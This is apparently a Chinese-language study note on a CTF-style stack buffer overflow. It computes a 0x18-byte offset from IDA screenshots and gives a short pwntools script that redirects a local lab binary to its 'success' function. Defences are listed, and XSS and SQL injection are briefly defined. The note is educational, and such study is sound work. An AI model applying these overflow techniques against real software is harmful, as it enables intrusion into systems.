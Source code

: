 **fgets函数原型：**char *fgets(char *s, int n, FILE *stream);//
我们平时可以这么使用：fgets(str, sizeof(str), stdin);其中str为数组首地址，sizeof(str)为数组大小，stdin表示我们从键盘输入数据。
fgets函数功能：从文件指针stream中读取字符，存到以s为起始地址的空间里，知道读完N-1个字符，或者读完一行。　注意：调用fgets函数时，最多只能读入n-1个字符。读入结束后，系统将自动在最后加’\0’，并以str作为函数值返回。

为什么只能读n-1个字符？因为\0实际上占了一个字符位。而多出这个范围的字符会被存储在缓冲区中。

用IDA看看函数发育的正不正常（：

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202404151159334.png)

从这里可以看出来，变量所在位置是EBP地址-14h；

被调用函数的返回地址是EBP地址+4h

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202404151159335.png)

vulnerable函数地址为0x80491C7（但这个其实是没用的，因为需要的不是vulnerable（）函数）

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202404151159336.png)

success函数地址为0x8049166；

下面做一个简单的计算

vulenerable函数的返回地址就是EBP地址+4h=变量s地址+14h+4h=变量s地址+18h

所以需要填充18h字符长度的垃圾数据+success的地址即可

（18十六进制=24十进制，所以其实这里也可以用20个字符再加上ebp的地址，达到的是同样的效果（*垃圾教程还不如不看*））

shellcode:

```python
from pwn import *
cd = process("./JNTM")
whatever = 0x8049166
cd.sendline(b'A'*0x18 + p32(whatever))
cd.interactive()
```

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202404151159337.png)

### 防御方法
1. **代码审查和静态分析**：通过代码审查和使用静态分析工具来识别可能的越界写入代码。
2. **动态分析工具**：使用如AddressSanitizer等动态分析工具在运行时检测和防止越界写入。
3. **使用安全的编程实践**：例如，在C/C++中使用`std::vector`或其它安全容器代替原生数组。
4. **输入验证**：确保对所有外部输入进行适当的大小和类型检查。
## XSS

 XSS（跨站脚本攻击，Cross-Site Scripting） 是一种常见的网络安全漏洞，它允许攻击者将恶意脚本注入到其他用户在浏览器上看到的正常网页中。当其他用户浏览含有恶意脚本的网页时，这些脚本就会在用户的浏览器上执行，攻击者可以利用这些脚本做出各种恶意行为，比如窃取用户的敏感信息、伪造用户身份进行操作等。
 详细的XSS漏洞请参见：XSS Archive.pdf

## SQL Injection
**SQL注入（SQL Injection）** 是一种常见的网络安全攻击技术，它允许攻击者通过在应用程序的输入字段中插入或“注入”恶意的SQL命令，来操纵后端数据库。这种攻击可以让攻击者绕过身份验证、窃取数据、修改数据库内容甚至有可能获得主机的控制权。
详细的SQL注入漏洞请参见：SQL_Injection(SQLiLabs)1&2.pdf
